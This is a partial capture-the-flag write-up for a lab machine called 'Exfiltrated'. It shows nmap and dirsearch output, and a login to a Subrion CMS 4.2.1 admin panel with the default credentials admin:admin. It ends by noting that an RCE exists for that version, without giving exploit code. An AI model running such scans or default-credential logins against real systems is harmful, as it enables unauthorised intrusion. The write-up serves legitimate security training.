# Network Enumeration

```bash
$ nmap -r -v --min-rate=1500 -p- -oN 001-nmap-tcp-full  192.168.183.16   
Not shown: 65527 closed tcp ports (conn-refused)                                                                    
PORT      STATE    SERVICE                                                                                          
22/tcp    open     ssh                                                                                              
80/tcp    open     http                                                                                             
```

# Port Enumeration

When we visit to `192.168.183.163` that will navigate to `exfiltrated.offsec` automatic, so add `exfiltrated.offsec` to /etc/hosts.



## Web discovery

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/Exfiltrated]                                                                                                                                                                 
└─$ dirsearch -u "http://exfiltrated.offsec" -x 404 
[07:49:14] Starting:     
[07:49:20] 200 -   76B  - /.angular-cli.json
[07:49:21] 200 -  104B  - /.apport-ignore.xml
[07:49:21] 200 -   21KB - /%3f/
[07:49:22] 200 -   76B  - /.azure/accessTokens.json 
[07:49:22] 200 -   76B  - /.babel.json
[07:49:22] 200 -   76B  - /.bower.json
[07:49:22] 200 -   76B  - /.brackets.json
[07:49:22] 200 -   76B  - /.buildkite/pipeline.json
[07:49:23] 200 -   76B  - /.codeclimate.json
[07:49:24] 200 -   76B  - /.composer/auth.json
[07:49:24] 200 -   76B  - /.config/configstore/snyk.json                                                            
[07:49:24] 200 -   76B  - /.config/gatsby/config.json     
[07:49:24] 200 -  104B  - /.config/filezilla/sitemanager.xml.xml                                                    
[07:49:24] 200 -   76B  - /.config/gatsby/events.json     
[07:49:24] 200 -  104B  - /.config/psi+/profiles/default/accounts.xml                                               
[07:49:24] 200 -   76B  - /.config/yarn/global/package.json                                                         
[07:49:24] 200 -   76B  - /.cordova/config.json                                                                     
[07:49:25] 200 -   76B  - /.csscomb.json                                                                            
[07:49:25] 200 -  104B  - /.db.xml                                                                                  
[07:49:25] 200 -   76B  - /.deployment-config.json                                                                  
[07:49:25] 200 -   76B  - /.docker/config.json                                                                      
[07:49:25] 200 -   76B  - /.docker/daemon.json                                                                      
[07:49:26] 200 -   76B  - /.esdoc.json                                                                              
[07:49:26] 200 -   76B  - /.eslintrc.json                                                                           
[07:49:27] 200 -  104B  - /.filezilla/sitemanager.xml.xml                                                           
[07:49:27] 200 -   76B  - /.fontcustom-manifest.json                                                                
[07:49:27] 200 -   76B  - /.gdrive/token_v2.json                                                                    
[07:49:28] 200 -   76B  - /.geppetto-rc.json                                                                        
[07:49:28] 200 -   76B  - /.git.json
[07:49:30] 403 -  283B  - /.ht_wsr.txt                                                                              
[07:49:30] 403 -  283B  - /.htaccess.bak1                                                                           
[07:49:30] 403 -  283B  - /.htaccess.orig                                                                           
[07:49:30] 403 -  283B  - /.htaccess.sample               
[07:49:30] 403 -  283B  - /.htaccess.save                 
[07:49:30] 403 -  283B  - /.htaccess_orig                                                                           
[07:49:30] 403 -  283B  - /.htaccess_sc                   
[07:49:30] 403 -  283B  - /.htaccess_extra                                                                          
[07:49:30] 403 -  283B  - /.htaccessBAK                   
[07:49:30] 403 -  283B  - /.htaccessOLD                                                                             
[07:49:30] 403 -  283B  - /.htaccessOLD2                                                                            
[07:49:30] 403 -  283B  - /.htm                           
[07:49:30] 403 -  283B  - /.html                                                                                    
[07:49:30] 403 -  283B  - /.htpasswd_test                 
[07:49:30] 403 -  283B  - /.httr-oauth                    
[07:49:30] 403 -  283B  - /.htpasswds                     
[07:49:30] 200 -  104B  - /.idea/assetwizardsettings.xml                                                            
[07:49:30] 200 -  104B  - /.idea/compiler.xml                                                                       
[07:49:30] 200 -  104B  - /.idea/copyright/profiles_settings.xml                                                    
[07:49:30] 200 -  104B  - /.idea/dataSources.local.xml    
[07:49:31] 200 -  104B  - /.idea/dataSources.xml                                                                    
[07:49:31] 200 -  104B  - /.idea/deployment.xml           
[07:49:31] 200 -  104B  - /.idea/encodings.xml            
[07:49:31] 200 -  104B  - /.idea/gradle.xml                                                                         
[07:49:31] 200 -  104B  - /.idea/misc.xml                                                                           
[07:49:31] 200 -  104B  - /.idea/modules.xml              
[07:49:31] 200 -  104B  - /.idea/inspectionProfiles/Project_Default.xml                                             
[07:49:31] 200 -  104B  - /.idea/naveditor.xml            
[07:49:31] 200 -  104B  - /.idea/replstate.xml            
[07:49:31] 200 -  104B  - /.idea/runConfigurations.xml                                                              
[07:49:31] 200 -  104B  - /.idea/scopes/scope_settings.xml                                                          
[07:49:31] 200 -  104B  - /.idea/sqlDataSources.xml                                                                 
[07:49:31] 200 -  104B  - /.idea/tasks.xml                
[07:49:31] 200 -  104B  - /.idea/uiDesigner.xml           
[07:49:31] 200 -  104B  - /.idea/vcs.xml                  
[07:49:31] 200 -  104B  - /.idea/webServers.xml           
[07:49:31] 200 -  104B  - /.idea/workspace(2).xml         
[07:49:31] 200 -  104B  - /.idea/workspace(3).xml                                                                   
[07:49:31] 200 -  104B  - /.idea/workspace(4).xml                                                                   
[07:49:31] 200 -  104B  - /.idea/workspace(7).xml         
[07:49:31] 200 -  104B  - /.idea/workspace(5).xml         
[07:49:31] 200 -  104B  - /.idea/workspace.xml
[07:49:31] 200 -  104B  - /.idea/workspace(6).xml         
[07:49:32] 200 -   76B  - /.jscs.json                                                                               
[07:49:32] 200 -   76B  - /.jscsrc.json                                                                             
[07:49:32] 200 -   76B  - /.jupyter/jupyter_notebook_config.json                                                    
[07:49:32] 200 -   76B  - /.lanproxy/config.json                                                                    
[07:49:32] 200 -   76B  - /.jsdoc.json                                                                              
[07:49:33] 200 -   76B  - /.luna/user_info.json                                                                     
[07:49:33] 200 -   76B  - /.markdownlint.json                                                                       
[07:49:33] 200 -   76B  - /.mozilla/firefox/logins.json                                                             
[07:49:34] 200 -   76B  - /.npm/anonymous-cli-metrics.json                                                          
[07:49:35] 403 -  283B  - /.php                                                                                     
[07:49:35] 200 -  104B  - /.phpcs.xml                                                                               
[07:49:36] 200 -   76B  - /.prettierrc.json                                                                         
[07:49:36] 200 -  104B  - /.project.xml                                                                             
[07:49:36] 200 -   76B  - /.projections.json                                                                        
[07:49:37] 200 -   76B  - /.release.json                                                                            
[07:49:37] 200 -   76B  - /.remote-sync.json                                                                        
[07:49:37] 200 -   76B  - /.repo-metadata.json                                                                      
[07:49:38] 200 -  104B  - /.settings/org.eclipse.wst.common.project.facet.core.xml                                  
[07:49:39] 200 -   76B  - /.stylelintrc.json                                                                        
[07:49:40] 200 -   76B  - /.terraform/modules/modules.json                                                          
[07:49:41] 200 -   76B  - /.vscode/extensions.json                                                                  
[07:49:41] 200 -   76B  - /.vscode/launch.json                                                                      
[07:49:41] 200 -   76B  - /.vscode/settings.json                                                                    
[07:49:41] 200 -   76B  - /.vscode/ftp-sync.json          
[07:49:41] 200 -   76B  - /.vscode/tasks.json                                                                       
[07:49:41] 200 -   76B  - /.vscode/sftp.json                                                                        
[07:49:41] 200 -   76B  - /.well-known/assetlinks.json                                                              
[07:49:41] 200 -   76B  - /.well-known/host-meta.json                                                               
[07:49:41] 200 -   76B  - /.well-known/jwks.json                                                                    
[07:49:42] 200 -   76B  - /.yo-rc.json                                                                              
[07:49:43] 200 -   21KB - /0                                                                                        
[07:49:47] 200 -  104B  - /BingSiteAuth.xml                                                                         
[07:49:47] 200 -    4KB - /CONTRIBUTING.md                                                                          
[07:49:48] 200 -  104B  - /Citrix/PNAgent/config.xml                                                                
[07:49:48] 200 -  104B  - /ClientAccessPolicy.xml                                                                   
[07:49:49] 200 -   76B  - /Homestead.json                                                                           
[07:49:49] 200 -  104B  - /Http/DataLayCfg.xml                                                                      
[07:49:50] 200 -  104B  - /META-INF/app-config.xml                                                                  
[07:49:50] 200 -  104B  - /META-INF/application-client.xml                                                          
[07:49:50] 200 -  104B  - /META-INF/application.xml       
[07:49:50] 200 -  104B  - /META-INF/beans.xml                                                                       
[07:49:50] 200 -  104B  - /META-INF/context.xml                                                                     
[07:49:50] 200 -  104B  - /META-INF/container.xml         
[07:49:50] 200 -  104B  - /META-INF/ejb-jar.xml
[07:49:50] 200 -  104B  - /META-INF/jboss-app.xml
[07:49:50] 200 -  104B  - /META-INF/ironjacamar.xml       
[07:49:50] 200 -  104B  - /META-INF/jboss-client.xml      
[07:49:50] 200 -  104B  - /META-INF/jboss-deployment-structure.xml                                                  
[07:49:50] 200 -  104B  - /META-INF/jboss-ejb3.xml        
[07:49:50] 200 -  104B  - /META-INF/jboss-ejb-client.xml  
[07:49:50] 200 -  104B  - /META-INF/jboss-webservices.xml                                                           
[07:49:50] 200 -  104B  - /META-INF/persistence.xml       
[07:49:50] 200 -  104B  - /META-INF/ra.xml                
[07:49:50] 200 -  104B  - /META-INF/spring/application-context.xml                                                  
[07:49:50] 200 -  104B  - /META-INF/weblogic-application.xml                                                        
[07:49:50] 200 -  104B  - /META-INF/jbosscmp-jdbc.xml     
[07:49:50] 200 -  104B  - /META-INF/weblogic-ejb-jar.xml  
[07:49:50] 200 -   76B  - /META.json                      
[07:49:51] 200 -  104B  - /Package.StoreAssociation.xml                                                             
[07:49:51] 200 -    5KB - /README.md                                                                                
[07:49:51] 200 -  104B  - /RushSite.xml                                                                             
[07:49:52] 200 -  104B  - /ServerList.xml                                                                           
[07:49:52] 200 -  104B  - /StyleCopReport.xml                                                                       
[07:49:53] 200 -  104B  - /TestResult.xml                                                                           
[07:49:53] 200 -  104B  - /WEB-INF/application-client.xml                                                           
[07:49:53] 200 -  104B  - /WEB-INF./web.xml               
[07:49:53] 200 -  104B  - /WEB-INF/applicationContext.xml                                                           
[07:49:53] 200 -  104B  - /WEB-INF/beans.xml              
[07:49:53] 200 -  104B  - /WEB-INF/cas-servlet.xml        
[07:49:53] 200 -  104B  - /WEB-INF/application_config.xml                                                           
[07:49:53] 200 -  104B  - /WEB-INF/classes/META-INF/app-config.xml                                                  
[07:49:53] 200 -  104B  - /WEB-INF/classes/META-INF/persistence.xml                                                 
[07:49:53] 200 -  104B  - /WEB-INF/classes/app-config.xml                                                           
[07:49:54] 200 -  104B  - /WEB-INF/classes/applicationContext.xml                                                   
[07:49:54] 200 -  104B  - /WEB-INF/classes/demo.xml                                                                 
[07:49:54] 200 -  104B  - /WEB-INF/classes/languages.xml                                                            
[07:49:54] 200 -  104B  - /WEB-INF/classes/faces-config.xml                                                         
[07:49:54] 200 -  104B  - /WEB-INF/classes/hibernate.cfg.xml                                                        
[07:49:54] 200 -  104B  - /WEB-INF/classes/log4j.xml      
[07:49:54] 200 -  104B  - /WEB-INF/classes/logback.xml                                                              
[07:49:54] 200 -  104B  - /WEB-INF/classes/mobile.xml                                                               
[07:49:54] 200 -  104B  - /WEB-INF/classes/persistence.xml                                                          
[07:49:54] 200 -  104B  - /WEB-INF/classes/struts.xml     
[07:49:54] 200 -  104B  - /WEB-INF/classes/web.xml        
[07:49:54] 200 -  104B  - /WEB-INF/components.xml         
[07:49:54] 200 -  104B  - /WEB-INF/conf/jpa_context.xml   
[07:49:54] 200 -  104B  - /WEB-INF/conf/core_context.xml  
[07:49:54] 200 -  104B  - /WEB-INF/conf/core.xml          
[07:49:54] 200 -  104B  - /WEB-INF/conf/page_navigator.xml
[07:49:54] 200 -  104B  - /WEB-INF/config.xml
[07:49:54] 200 -  104B  - /WEB-INF/config/dashboard-statistics.xml
[07:49:54] 200 -  104B  - /WEB-INF/config/faces-config.xml
[07:49:54] 200 -  104B  - /WEB-INF/config/mua-endpoints.xml 
[07:49:54] 200 -  104B  - /WEB-INF/config/metadata.xml 
[07:49:54] 200 -  104B  - /WEB-INF/config/security.xml 
[07:49:54] 200 -  104B  - /WEB-INF/config/soapConfig.xml  
[07:49:54] 200 -  104B  - /WEB-INF/config/users.xml       
[07:49:54] 200 -  104B  - /WEB-INF/config/webmvc-config.xml                                                         
[07:49:54] 200 -  104B  - /WEB-INF/config/webflow-config.xml                                                        
[07:49:54] 200 -  104B  - /WEB-INF/config/web-core.xml    
[07:49:54] 200 -  104B  - /WEB-INF/decorators.xml         
[07:49:54] 200 -  104B  - /WEB-INF/deployerConfigContext.xml                                                        
[07:49:54] 200 -  104B  - /WEB-INF/dispatcher-servlet.xml                                                           
[07:49:54] 200 -  104B  - /WEB-INF/ejb-jar.xml            
[07:49:54] 200 -  104B  - /WEB-INF/geronimo-web.xml       
[07:49:54] 200 -  104B  - /WEB-INF/glassfish-resources.xml                                                          
[07:49:54] 200 -  104B  - /WEB-INF/faces-config.xml       
[07:49:54] 200 -  104B  - /WEB-INF/glassfish-web.xml      
[07:49:54] 200 -  104B  - /WEB-INF/ias-web.xml            
[07:49:54] 200 -  104B  - /WEB-INF/hibernate.cfg.xml      
[07:49:54] 200 -  104B  - /WEB-INF/jboss-deployment-structure.xml                                                   
[07:49:54] 200 -  104B  - /WEB-INF/jax-ws-catalog.xml     
[07:49:54] 200 -  104B  - /WEB-INF/jboss-client.xml       
[07:49:54] 200 -  104B  - /WEB-INF/jboss-ejb-client.xml   
[07:49:54] 200 -  104B  - /WEB-INF/jboss-web.xml          
[07:49:54] 200 -  104B  - /WEB-INF/jboss-ejb3.xml         
[07:49:54] 200 -  104B  - /WEB-INF/jboss-webservices.xml  
[07:49:54] 200 -  104B  - /WEB-INF/jonas-web.xml          
[07:49:54] 200 -  104B  - /WEB-INF/jetty-env.xml          
[07:49:54] 200 -  104B  - /WEB-INF/jrun-web.xml           
[07:49:54] 200 -  104B  - /WEB-INF/liferay-layout-templates.xml                                                     
[07:49:54] 200 -  104B  - /WEB-INF/liferay-portlet.xml    
[07:49:54] 200 -  104B  - /WEB-INF/liferay-look-and-feel.xml                                                        
[07:49:54] 200 -  104B  - /WEB-INF/liferay-plugin-package.xml                                                       
[07:49:54] 200 -  104B  - /WEB-INF/local.xml              
[07:49:54] 200 -  104B  - /WEB-INF/liferay-display.xml    
[07:49:54] 200 -  104B  - /WEB-INF/logback.xml            
[07:49:55] 200 -  104B  - /WEB-INF/jetty-web.xml          
[07:49:55] 200 -  104B  - /WEB-INF/portlet-custom.xml     
[07:49:55] 200 -  104B  - /WEB-INF/portlet.xml            
[07:49:55] 200 -  104B  - /WEB-INF/openx-config.xml       
[07:49:55] 200 -  104B  - /WEB-INF/quartz-properties.xml  
[07:49:55] 200 -  104B  - /WEB-INF/remoting-servlet.xml   
[07:49:55] 200 -  104B  - /WEB-INF/restlet-servlet.xml    
[07:49:55] 200 -  104B  - /WEB-INF/resin-web.xml          
[07:49:55] 200 -  104B  - /WEB-INF/rexip-web.xml          
[07:49:55] 200 -  104B  - /WEB-INF/sitemesh.xml           
[07:49:55] 200 -  104B  - /WEB-INF/spring-config/application-context.xml                                            
[07:49:55] 200 -  104B  - /WEB-INF/spring-config.xml
[07:49:55] 200 -  104B  - /WEB-INF/spring-config/management-config.xml
[07:49:55] 200 -  104B  - /WEB-INF/spring-config/authorization-config.xml                                           
[07:49:55] 200 -  104B  - /WEB-INF/spring-config/messaging-config.xml                                               
[07:49:55] 200 -  104B  - /WEB-INF/spring-config/presentation-config.xml                                            
[07:49:55] 200 -  104B  - /WEB-INF/spring-config/services-config.xml                                                
[07:49:55] 200 -  104B  - /WEB-INF/spring-configuration/filters.xml                                                 
[07:49:55] 200 -  104B  - /WEB-INF/spring-config/services-remote-config.xml                                         
[07:49:55] 200 -  104B  - /WEB-INF/spring-context.xml     
[07:49:55] 200 -  104B  - /WEB-INF/spring-dispatcher-servlet.xml                                                    
[07:49:55] 200 -  104B  - /WEB-INF/spring-mvc.xml         
[07:49:55] 200 -  104B  - /WEB-INF/spring-ws-servlet.xml  
[07:49:55] 200 -  104B  - /WEB-INF/struts-config-ext.xml  
[07:49:55] 200 -  104B  - /WEB-INF/springweb-servlet.xml  
[07:49:55] 200 -  104B  - /WEB-INF/spring/webmvc-config.xml                                                         
[07:49:55] 200 -  104B  - /WEB-INF/sun-jaxws.xml          
[07:49:55] 200 -  104B  - /WEB-INF/struts-config-widgets.xml                                                        
[07:49:55] 200 -  104B  - /WEB-INF/struts-config.xml      
[07:49:55] 200 -  104B  - /WEB-INF/sun-web.xml            
[07:49:55] 200 -  104B  - /WEB-INF/tiles-defs.xml         
[07:49:55] 200 -  104B  - /WEB-INF/trinidad-config.xml    
[07:49:55] 200 -  104B  - /WEB-INF/tjc-web.xml            
[07:49:55] 200 -  104B  - /WEB-INF/urlrewrite.xml         
[07:49:55] 200 -  104B  - /WEB-INF/validation.xml         
[07:49:55] 200 -  104B  - /WEB-INF/web-jetty.xml          
[07:49:55] 200 -  104B  - /WEB-INF/validator-rules.xml    
[07:49:55] 200 -  104B  - /WEB-INF/web-borland.xml        
[07:49:55] 200 -  104B  - /WEB-INF/web.xml                
[07:49:55] 200 -  104B  - /WEB-INF/web2.xml               
[07:49:55] 200 -  104B  - /WEB-INF/weblogic.xml           
[07:49:55] 200 -  104B  - /WEB-INF/workflow-properties.xml                                                          
[07:49:55] 200 -  104B  - /XSQLConfig.xml                                                                           
[07:49:57] 200 -  104B  - /_notes/dwsync.xml                                                                        
[07:49:58] 200 -   76B  - /_wpeprivate/config.json                                                                  
[07:50:00] 200 -  104B  - /accounts.xml                                                                             
[07:50:02] 200 -  104B  - /admin-authz.xml                                                                          
[07:50:03] 403 -  283B  - /admin/.htaccess                                                                          
[07:50:20] 403 -   17KB - /api/                                                                                     
[07:50:20] 403 -   17KB - /api/2/explore/                 
[07:50:20] 200 -   72B  - /api/login.json                                                                           
[07:50:20] 403 -   17KB - /api/swagger-ui.html                                                                      
[07:50:20] 403 -   17KB - /api/swagger.yml                                                                          
[07:50:20] 200 -   76B  - /app/composer.json                                                                        
[07:50:20] 200 -   76B  - /app/config/adminConf.json                                                                
[07:50:20] 200 -   76B  - /app/config/global.json                                                                   
[07:50:20] 200 -  104B  - /app/etc/config.xml
[07:50:20] 200 -  104B  - /app/etc/enterprise.xml 
[07:50:20] 200 -  104B  - /app/etc/fpc.xml 
[07:50:20] 200 -  104B  - /app/etc/local.xml 
[07:50:21] 200 -  104B  - /app/phpunit.xml
[07:50:21] 200 -   76B  - /archaius.json
[07:50:22] 200 -  104B  - /atlassian-ide-plugin.xml
[07:50:22] 200 -   76B  - /auditevents.json                                                                         
[07:50:23] 200 -   76B  - /autoconfig.json                                                                          
[07:50:23] 200 -  104B  - /backend/core/info.xml                                                                    
[07:50:25] 200 -   76B  - /beans.json                                                                               
[07:50:25] 200 -  104B  - /black/template.xml                                                                       
[07:50:25] 200 -   76B  - /blockchain.json                                                                          
[07:50:26] 200 -   19KB - /blog/                                                                                    
[07:50:26] 200 -   76B  - /bower.json                                                                               
[07:50:26] 200 -   76B  - /box.json                                                                                 
[07:50:26] 200 -  104B  - /build.local.xml                                                                          
[07:50:26] 200 -  104B  - /build.xml                                                                                
[07:50:27] 200 -  104B  - /cell.xml                                                                                 
[07:50:28] 200 -  104B  - /chubb.xml                                                                                
[07:50:28] 200 -  104B  - /citydesk.xml                                                                             
[07:50:28] 200 -   48KB - /changelog.txt                                                                            
[07:50:28] 200 -   76B  - /classic.json                                                                             
[07:50:29] 200 -   76B  - /client_secret.json                                                                       
[07:50:29] 200 -   76B  - /client_secrets.json                                                                      
[07:50:29] 200 -   76B  - /cni-conf.json                                                                            
[07:50:29] 200 -  104B  - /common.xml                                                                               
[07:50:29] 200 -   76B  - /compile_commands.json                                                                    
[07:50:30] 200 -   76B  - /composer/installed.json                                                                  
[07:50:30] 200 -  104B  - /conf/context.xml                                                                         
[07:50:30] 200 -  104B  - /conf/server.xml                
[07:50:30] 200 -  104B  - /conf/tomcat-users.xml          
[07:50:30] 200 -  104B  - /conf/web.xml                                                                             
[07:50:30] 200 -   76B  - /config.json                                                                              
[07:50:30] 200 -  104B  - /config.xml                                                                               
[07:50:32] 200 -   76B  - /console/base/config.json                                                                 
[07:50:32] 200 -   76B  - /console/payments/config.json                                                             
[07:50:33] 200 -  104B  - /coverage.xml                                                                             
[07:50:33] 200 -  104B  - /credentials.xml                                                                          
[07:50:33] 200 -   43B  - /cron.log                                                                                 
[07:50:33] 200 -   43B  - /cron.php                       
[07:50:33] 200 -   43B  - /cron.sh                        
[07:50:33] 200 -   43B  - /cron/                          
[07:50:33] 200 -   43B  - /cron/cron.sh                   
[07:50:33] 200 -   76B  - /credentials/gcloud.json                                                                  
[07:50:33] 200 -  104B  - /crossdomain.xml                                                                          
[07:50:34] 200 -  104B  - /db.xml                                                                                   
[07:50:35] 200 -  104B  - /debug.xml                                                                                
[07:50:36] 200 -  104B  - /dependency-reduced-pom.xml                                                               
[07:50:36] 200 -   76B  - /description.json                                                                         
[07:50:37] 200 -   76B  - /docs.json 
[07:50:37] 200 -  104B  - /docs/export-demo.xml  
[07:50:37] 200 -   76B  - /dump.json                                                                                
[07:50:38] 200 -  104B  - /dwsync.xml                                                                               
[07:50:38] 200 -   76B  - /ecosystem.json                                                                           
[07:50:39] 200 -   76B  - /env.json                                                                                 
[07:50:39] 200 -  104B  - /error.xml                                                                                
[07:50:39] 200 -  104B  - /errors/local.xml                                                                         
[07:50:40] 200 -  104B  - /etc/database.xml                                                                         
[07:50:40] 200 -  104B  - /faces/javax.faces.resource/web.xml?ln=../WEB-INF                                         
[07:50:40] 200 -  104B  - /faces/javax.faces.resource/web.xml?ln=..\\WEB-INF                                        
[07:50:41] 200 -  104B  - /fastlane/report.xml                                                                      
[07:50:41] 200 -    1KB - /favicon.ico                                                                              
[07:50:41] 200 -   76B  - /features.json                                                                            
[07:50:42] 200 -  104B  - /filezilla.xml                                                                            
[07:50:43] 200 -   76B  - /freeline_project_description.json                                                        
[07:50:44] 200 -   76B  - /google-services.json                                                  
[07:50:45] 200 -   76B  - /health.json                                                           
[07:50:45] 200 -   76B  - /heapdump.json                                                         
[07:50:45] 200 -   19KB - /help/                                                                 
[07:50:48] 200 -   21KB - /index.php                                                             
[07:50:48] 200 -  104B  - /index.xml                                                             
[07:50:48] 200 -   76B  - /info.json
[07:50:48] 200 -   76B  - /installed.json
[07:50:50] 200 -  104B  - /joomla.xml                                                            
[07:50:50] 200 -   76B  - /keys.json                                                             
[07:50:51] 200 -  104B  - /lfc/fixtures/superuser.xml                                            
[07:50:52] 200 -   34KB - /license.txt                                                           
[07:50:52] 200 -   76B  - /log.json                                                              
[07:50:53] 200 -   76B  - /loggers.json                                                          
[07:50:53] 200 -    2B  - /login.json                                                            
[07:50:53] 200 -   18KB - /login/cpanel.html                                                     
[07:50:53] 200 -   18KB - /login/cpanel/                  
[07:50:53] 200 -   18KB - /login/oauth/                                                          
[07:50:54] 200 -   18KB - /login/                                                                
[07:50:54] 200 -   18KB - /login/cpanel.jsp                                                      
[07:50:54] 200 -   18KB - /login/admin/                                                          
[07:50:54] 200 -   18KB - /login/administrator/           
[07:50:54] 200 -   18KB - /login/cpanel.aspx                                                                        
[07:50:54] 200 -   18KB - /login/cpanel.php                                                                         
[07:50:54] 200 -   18KB - /login/admin/admin.asp
[07:50:56] 200 -   76B  - /mappings.json
[07:50:57] 200 -  104B  - /media/export-criteo.xml                                                                  
[07:50:57] 200 -   22KB - /member/admin.asp                                                                         
[07:50:57] 200 -   76B  - /metrics.json                                                                             
[07:50:57] 200 -   76B  - /metric_tracking.json           
[07:50:58] 200 -   25KB - /members/login.aspx                                                                       
[07:50:58] 200 -   25KB - /members/                       
[07:50:58] 200 -   25KB - /members/login.html             
[07:50:58] 200 -   25KB - /members/login.php                                                                        
[07:50:58] 200 -   25KB - /members/login.jsp                                                                        
[07:50:58] 200 -   76B  - /modern.json                                                                              
[07:51:00] 200 -  104B  - /nbproject/private/private.xml                                                            
[07:51:00] 200 -  104B  - /nbproject/project.xml          
[07:51:00] 200 -  104B  - /nb-configuration.xml                                                                     
[07:51:00] 200 -  104B  - /nbactions.xml                                                                            
[07:51:01] 200 -   76B  - /ng-cli-backup.json                                                                       
[07:51:01] 200 -  104B  - /node.xml                                                                                 
[07:51:01] 200 -  104B  - /nosetests.xml                                                                            
[07:51:01] 200 -   76B  - /npm-shrinkwrap.json                                                                      
[07:51:03] 200 -   76B  - /package-lock.json                                                                        
[07:51:03] 200 -   76B  - /package.json                   
[07:51:04] 200 -    6KB - /panel.php                                                                                
[07:51:04] 200 -    6KB - /panel/                                                                                   
[07:51:04] 200 -    6KB - /panel.aspx                     
[07:51:04] 200 -    6KB - /panel.html                     
[07:51:04] 200 -    6KB - /panel.jsp                                                                                
[07:51:04] 200 -   76B  - /pause.json                                                                               
[07:51:10] 200 -  104B  - /phpunit.xml                                                                              
[07:51:10] 200 -  104B  - /plugin.xml                                                                               
[07:51:11] 200 -  104B  - /pom.xml                                                                                  
[07:51:12] 200 -   76B  - /product.json                                                                             
[07:51:12] 200 -  104B  - /profiles.xml                                                                             
[07:51:12] 200 -   76B  - /project.lock.json                                                                        
[07:51:12] 200 -   76B  - /project.fragment.lock.json     
[07:51:12] 200 -  104B  - /project.xml                                                                              
[07:51:13] 200 -   76B  - /providers.json                                                                           
[07:51:13] 200 -  104B  - /publication_list.xml                                                                     
[07:51:14] 200 -  104B  - /recentservers.xml                                                                        
[07:51:14] 200 -    1KB - /redirect.php                                                                             
[07:51:14] 200 -    1KB - /redirect.html                                                                            
[07:51:14] 200 -    1KB - /redirect.jsp                   
[07:51:14] 200 -    1KB - /redirect.aspx                  
[07:51:14] 200 -   76B  - /refresh.json                                                                             
[07:51:14] 200 -   20KB - /registration/                                                                            
[07:51:15] 200 -  104B  - /resources.xml                                                                            
[07:51:15] 200 -   76B  - /restart.json                                                                             
[07:51:15] 200 -   76B  - /resume.json                                                                              
[07:51:15] 200 -  142B  - /robots.txt                                                                               
[07:51:17] 200 -  104B  - /security.xml
[07:51:17] 200 -  104B  - /server.xml
[07:51:17] 200 -   76B  - /server/config.json
[07:51:17] 200 -  104B  - /serverindex.xml
[07:51:17] 200 -  104B  - /servers.xml
[07:51:17] 200 -   76B  - /service-registry/instance-status.json
[07:51:17] 200 -  104B  - /servlet/Oracle.xml.xsql.XSQLServlet/xsql/lib/XSQLConfig.xml
[07:51:17] 200 -  104B  - /servlet/Oracle.xml.xsql.XSQLServlet/soapdocs/webapps/soap/WEB-INF/config/soapConfig.xml
[07:51:17] 200 -  104B  - /servlet/oracle.xml.xsql.XSQLServlet/soapdocs/webapps/soap/WEB-INF/config/soapConfig.xml
[07:51:17] 200 -  104B  - /servlet/oracle.xml.xsql.XSQLServlet/xsql/lib/XSQLConfig.xml
[07:51:18] 200 -  104B  - /settings.xml
[07:51:18] 200 -   76B  - /sftp-config.json
[07:51:20] 200 -  104B  - /site/common.xml
[07:51:20] 200 -  637B  - /sitemap.xml
[07:51:20] 200 -  104B  - /sitemanager.xml
[07:51:20] 200 -  104B  - /sites.xml
[07:51:21] 200 -  104B  - /soapdocs/webapps/soap/WEB-INF/config/soapConfig.xml
[07:51:22] 200 -   76B  - /stats.json
[07:51:24] 200 -   76B  - /swagger/v1/swagger.json
[07:51:24] 200 -   76B  - /swagger.json
[07:51:25] 200 -  104B  - /temp-testng-customsuite.xml
[07:51:25] 200 -  104B  - /template.xml
[07:51:26] 200 -  104B  - /tests/phpunit_report.xml
[07:51:28] 200 -   76B  - /trace.json
[07:51:29] 200 -   76B  - /tsconfig.json
[07:51:29] 403 -  283B  - /updates
[07:51:32] 200 -   76B  - /users.json
[07:51:35] 200 -   76B  - /vendor/composer/installed.json
[07:51:36] 200 -   76B  - /wallet.json
[07:51:37] 200 -  104B  - /web.xml
[07:51:38] 200 -  104B  - /workspace.xml
[07:51:41] 200 -  104B  - /xml/_common.xml
[07:51:41] 200 -  104B  - /xml/common.xml
[07:51:42] 200 -  104B  - /xsql/lib/XSQLConfig.xml
```

The `robots.txt` was leaked.



Try to visit every path. When I navigate to `/panel`, that will show `Subrion CMS v4.2.1`, use `admin:admin` to try login.



Can directly login to the backend. Search on google, that shows a RCE is in this version.

